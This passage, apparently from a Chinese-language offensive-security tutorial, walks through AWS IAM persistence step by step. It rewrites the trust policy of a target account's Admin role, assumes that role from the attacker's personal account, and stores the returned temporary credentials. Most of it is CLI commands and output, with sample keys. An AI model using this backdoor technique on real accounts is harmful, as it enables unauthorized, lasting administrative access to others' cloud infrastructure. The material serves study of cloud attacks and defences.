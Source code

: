 接下来，我们将使用 AWS CLI 更新具有此信任策略的角色：

```
aws iam update-assume-role-policy --role-name Admin --policy-document file://trust-policy.json --profile Test 
```

如果一切顺利，那么 AWS CLI 不应该向控制台返回任何输出。否则，您将看到一个错误和一个简短的描述出了什么问题。如果我们想要确认一切都正确，我们可以使用 AWS CLI 来`get`该角色并再次查看信任策略文档：

```
aws iam get-role --role-name Admin --profile Test 
```

该命令的响应应该包括您刚刚上传的信任策略。

我们唯一需要做的另一件事是将角色的 ARN 保存在本地某个地方，这样我们就不会忘记它。在这个例子中，我们目标角色的 ARN 是`arn:aws:iam::111111111111:role/Admin`。现在一切都完成了。

# 确认我们的访问

我们可以通过尝试从我们自己的攻击者账户内部“假定”我们的目标角色来测试我们的新持久性方法。已经有一个名为`MyPersonalUser`的本地 AWS CLI 配置文件，这是属于我的个人 AWS 账户的一组访问密钥。使用这些密钥，我应该能够运行以下命令：

```
aws sts assume-role --role-arn arn:aws:iam::111111111111:role/Admin --role-session-name PersistenceTest --profile MyPersonalUser 
```

我们只需要提供我们想要凭证的角色的 ARN 和角色会话名称，这可以是与返回的临时凭证关联的任意字符串值。如果一切按计划进行，AWS CLI 应该会以以下类似的方式做出响应：

```
{
    "Credentials": {
        "AccessKeyId": "ASIATE66IJ1KVECXRQRS",
        "SecretAccessKey": "hVhO4zr7gbrVBYS4oJZBTeJeKwTd1bPVWNZ9At7a",
        "SessionToken": "FQoGZXIvYXdzED0aAJslA+vx8iKMwQD0nSLzAaQ6mf4X0tuENPcN/Tccip/sR+aZ3g2KJ7PZs0Djb6859EpTBNfgXHi1OSWpb6mPAekZYadM4AwOBgjuVcgdoTk6U3wQAFoX8cOTa3vbXQtVzMovq2Yu1YLtL3LhcjoMJh2sgQUhxBQKIEbJZomK9Dnw3odQDG2c8roDFQiF0eSKPpX1cI31SpKkKdtHDignTBi2YcaHYFdSGHocoAu9q1WgXn9+JRIGMagYOhpDDGyXSG5rkndlZA9lefC0M7vI5BTldvmImgpbNgkkwi8jAL0HpB9NG2oa4r0vZ7qM9pVxoXwFTA1I8cyf6C+Vvwi5ty/3RaiZ1IffBQ==",
        "Expiration": "2018-11-06T20:23:05Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "AROAJTZAUYV2TQBZ2LXUK:PersistenceTest",
        "Arn": "arn:aws:sts::111111111111:assumed-role/Admin/PersistenceTest"
    }
}
```

完美！现在，我们所做的是使用我们自己的个人账户凭据来检索我们目标 AWS 账户的凭据。只要我们仍然是受信任的实体，我们随时都可以运行相同的`aws sts` API 调用，并在需要时检索另一组临时凭据。

我们可以通过修改我们的`~/.aws/credentials`文件使这些密钥对 AWS CLI 可用。配置文件只需要额外的`aws_session_token`键，这将导致以下内容被添加到我们的凭据文件中：

```
[PersistenceTest]
aws_access_key_id = ASIATE66IJ1KVECXRQRS
aws_secret_access_key = hVhO4zr7gbrVBYS4oJZBTeJeKwTd1bPVWNZ9At7a
aws_session_token = "FQoGZXIvYXdzED0aAJslA+vx8iKMwQD0nSLzAaQ6mf4X0tuENPcN/Tccip/sR+aZ3g2KJ7PZs0Djb6859EpTBNfgXHi1OSWpb6mPAekZYadM4AwOBgjuVcgdoTk6U3wQAFoX8cOTa3vbXQtVzMovq2Yu1YLtL3LhcjoMJh2sgQUhxBQKIEbJZomK9Dnw3odQDG2c8roDFQiF0eSKPpX1cI31SpKkKdtHDignTBi2YcaHYFdSGHocoAu9q1WgXn9+JRIGMagYOhpDDGyXSG5rkndlZA9lefC0M7vI5BTldvmImgpbNgkkwi8jAL0HpB9NG2oa4r0vZ7qM9pVxoXwFTA1I8cyf6C+Vvwi5ty/3RaiZ1IffBQ=="
```
